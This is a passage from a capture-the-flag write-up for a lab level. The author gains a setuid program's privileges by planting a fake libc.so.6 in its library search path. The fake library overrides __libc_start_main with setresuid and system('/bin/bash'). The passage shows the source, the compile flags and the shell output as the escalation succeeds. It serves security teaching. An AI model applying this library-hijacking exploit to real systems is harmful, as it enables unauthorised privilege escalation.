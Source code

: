 ```
/home/flag15/flag15: relocation error: /var/tmp/flag15/tls/i686/sse2/cmov/libc.so.6: symbol __cxa_finalize, version GLIBC_2.1.3 not defined in file libc.so.6 with link time reference
+++ exited (status 127) +++
```
It is throwing errors regarding the version of `libc` and about not being able to find a symbol `__cxa_finalize`.
So after some digging around I found a way to add version by using the `script=<version-script>` argument. I also added the symbol `__cxa_finalize();`. But it was still throwing errors and it was looking for another symbol. After some more tests I understood that the problem was that our `libc` didn't have enough content to run `system` command. I solved it by compiling the library with `-static-libgcc` argument.
Cotents of `lib.c` file
```cpp
level15@nebula:/var/tmp/flag15/tls/i686/sse2/cmov$ cat libc.c
#include <stdlib.h>

void __cxa_finalize();

int __libc_start_main(int *(main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end))
{
system("/bin/bash");
return 0;
}
```
Lets compile it and run
```bash
level15@nebula:/var/tmp/flag15/tls/i686/sse2/cmov$ gcc -fPIC -shared -static-libgcc -Wl,--version-script=version,-Bstatic -o libc.so.6 libc.c

level15@nebula:/var/tmp/flag15/tls/i686/sse2/cmov$ ltrace /home/flag15/flag15                                   
__libc_start_main(0x8048330, 1, 0xbf9b75f4, 0x8048400, 0x8048470level15
@nebula:/var/tmp/flag15/tls/i686/sse2/cmov$ id
uid=1016(level15) gid=1016(level15) groups=1016(level15)
level15@nebula:/var/tmp/flag15/tls/i686/sse2/cmov$ 

```
It worked. The program made a call to `__libc_start_main` and executed our `system` command. But the `uid` is ours.
The program dropped privileges when the `system` call was made.  
So I added `setresuid` function.
```cpp
level15@nebula:/var/tmp/flag15/tls/i686/sse2/cmov$ cat libc.c
#include <stdlib.h>

void __cxa_finalize();

int __libc_start_main(int *(main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end))
{
setresuid(geteuid(),geteuid(),geteuid());
system("/bin/bash");
return 0;
}
```
Lets run it now
```bash
level15@nebula:/var/tmp/flag15/tls/i686/sse2/cmov$ /home/flag15/flag15
flag15@nebula:/var/tmp/flag15/tls/i686/sse2/cmov$ id
uid=984(flag15) gid=1016(level15) groups=984(flag15),1016(level15)
flag15@nebula:/var/tmp/flag15/tls/i686/sse2/cmov$ getflag
You have successfully executed getflag on a target account
```